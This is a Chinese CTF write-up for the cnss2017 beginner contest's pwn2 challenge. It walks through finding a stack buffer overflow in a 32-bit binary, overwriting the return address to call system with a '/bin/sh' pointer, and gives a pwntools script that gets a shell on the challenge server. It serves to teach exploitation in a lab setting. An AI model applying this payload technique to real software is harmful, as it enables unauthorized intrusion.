 Title: cnss2017萌新赛writeup:pwn2  
Date: 2017-03-31 23:51:30  
Modified: 2017-03-31 23:51:30  
Tags: ctf,cnss2017萌新赛,pwn  
Slug: cnss2017萌新赛writeup:pwn2  
Summary: cnss2017萌新赛writeup:pwn2  
# 1. 分析
拿到程序后用ida f5反编译，查看`overflow_me`函数  
![](img/1.png)  
如图可看到scanf读入了32个字符并存放到了v1中  
接着查看`overflow_me`的`栈信息`  
![](img/2.png)  
可以看到在读入20个字符后就可以覆盖到返回地址  
(注：读入`0x10`个字符即`16`个字符后便可覆盖到`0`，再读入`4`个字符便可改写程序的`ret地址`)  
用`checksec`检查发现堆栈不可执行，ALSR显然是开启的  
查看函数时发现`callme`  
![](img/3.png)  
其中调用了system函数  
考虑可以通过栈溢出覆盖`overflow_me`的返回地址，使其跳转到system函数，从而拿到shell  
若是这样做，需要将指向`/bin/sh`这个字符串的`地址`作为`system`函数的参数  
在`export`窗口中可以看到，有个名为`shell`的全局变量  
![](img/4.png)  
双击查看后可看到其中存放了一个地址指向`/bin/sh`  
![](img/5.png)  
进而可以得知`/bin/sh`的地址为`0x08048780`  
![](img/6.png)  
考虑构造栈使`0x08048780`作为参数传入`system`函数  
# 2. 构造
构造栈信息可以用2种方法  
## 1. 观察法
首先在`overflow_me`结束后下一个断点  
![](img/7.png)  
执行程序并以`1234567890`作为标记让程序读入，观察其内存信息  
![](img/8.png)  
上图显然可以看出，`v1`的起始地址为`0xFFD02758`  
当前栈顶`esp`为`0xFFD02770`  
由函数调用的堆栈变化显然可以得知，若是将返回地址覆盖为`system`函数即`0x08048537`，则此时的栈顶`0xFFD02770`的值即对应着`system`的参数  
注：若是不明白函数调用的堆栈变化可以看本blog的[先占个坑]()   
将`eip`修改为`0x08048537`，并将`0xFFD02770`的数据修改为`0x08048780`  
![](img/9.png)  
运行可得知已经获得了shell  
![](img/10.png)  
观察内存知`1234567890`到ret的差值为`0x14`，到`0xFFD02770`的差值为`0x18`，只需构造字符串  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
即可  
## 2. 计算法
还是查看`overflow_me`的`栈信息`  
![](img/1.png)  
显然`v1`到ret地址的距离为`0x14`，考虑到程序会直接返回到`call system`，显然在ret地址的后面`4`字节为system的第一个参数  
因此构造  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
# 3. 写poc
直接上代码  
```python
#!/usr/bin/env python
from pwn import *
#program = process('./pwn2')
program = remote('ctf.cnss.studio', 5002)
ow_num = 0x14
ow_str = ''
ow_str += 'a' * ow_num
ow_str += p32(0x08048537)
ow_str += p32(0x08048780)
program.sendline('Y')
program.sendline(ow_str)
program.interactive()
```
注：p32可把地址直接按小端序化为文本  
执行后获得shell  
![](img/11.png)  